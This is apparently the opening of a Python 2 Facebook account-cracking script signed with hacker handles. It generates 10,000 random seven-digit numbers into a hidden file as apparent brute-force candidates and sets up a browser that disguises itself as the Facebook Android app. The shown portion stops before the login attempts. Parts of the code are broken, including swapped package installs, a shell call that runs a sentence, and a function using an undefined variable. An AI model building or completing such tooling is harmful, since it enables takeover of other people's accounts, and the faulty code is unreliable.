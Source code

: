 # SIDRA7# Thuglife# Somibro# Gamz#!/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(10000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 boss')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
